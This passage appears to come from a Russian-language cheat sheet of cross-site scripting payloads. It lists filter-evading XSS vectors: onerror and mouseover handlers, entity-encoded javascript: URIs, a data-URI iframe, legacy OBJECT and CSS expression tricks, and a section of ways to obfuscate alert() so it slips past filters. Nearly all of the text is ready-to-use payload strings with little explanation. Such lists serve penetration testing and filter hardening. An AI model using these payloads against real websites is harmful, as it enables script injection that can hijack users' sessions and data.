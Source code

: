- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`

При наведении курсора мыши​:

- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `


### Обфускация предупреждения об обходе фильтра

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- `(alert())`

Полезная нагрузка должна включать начальные и конечные обратные метки:

```js
&#96;`${alert``}`&#96;
```
